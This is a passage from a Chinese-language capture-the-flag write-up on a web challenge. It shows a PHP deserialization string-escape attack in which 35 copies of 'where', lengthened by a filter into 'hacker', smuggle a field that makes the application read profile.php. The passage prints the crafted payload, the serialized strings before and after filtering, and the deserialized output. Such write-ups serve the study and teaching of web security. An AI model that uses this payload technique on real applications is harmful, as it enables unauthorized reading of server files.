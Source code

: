 接下来利用过滤`where`时将其替换成`hacker`使其长度+1的性质来构造逃逸字符串

```
$profile['nickname'][] = wherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewhere";}s:5:"photo";s:11:"profile.php";}
(35个where)
替换前: 35*where(5) + 35(从where后的引号开始数至末尾)
替换后: 35*hacker(6)

序列化成字符串,过滤前
a:4:{s:5:"phone";s:11:"13333333333";s:5:"email";s:11:"abc@123.com";s:8:"nickname";a:1:{i:0;s:210:"wherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewhere";}s:5:"photo";s:11:"profile.php";}";}s:5:"photo";s:39:"upload/394659692a460258b45a99f1424ea357";}
过滤后的字符串
a:4:{s:5:"phone";s:11:"13333333333";s:5:"email";s:11:"abc@123.com";s:8:"nickname";a:1:{i:0;s:210:"hackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhacker";}s:5:"photo";s:11:"profile.php";}";}s:5:"photo";s:39:"upload/394659692a460258b45a99f1424ea357";}
过滤前字符串反序列化
array(4) { ["phone"]=> string(11) "13333333333" ["email"]=> string(11) "abc@123.com" ["nickname"]=> array(1) { [0]=> string(210) "wherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewhere";}s:5:"photo";s:11:"profile.php";}" } ["photo"]=> string(39) "upload/394659692a460258b45a99f1424ea357" }
过滤后字符串反序列化, 可以看到这里成功逃逸了
array(4) { ["phone"]=> string(11) "13333333333" ["email"]=> string(11) "abc@123.com" ["nickname"]=> array(1) { [0]=> string(210) "hackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhacker" } ["photo"]=> string(11) "profile.php" }
成功
```

多读取几个文件试试(注意在修改读取的文件名时,其长度的值也要改, `where`的数量也要改,长度+1,`where`的数量就要+1)

<img src="/images/buuctf-web2/image-20221023234449637.png" alt="image-20221023234449637" style="zoom:67%;" />
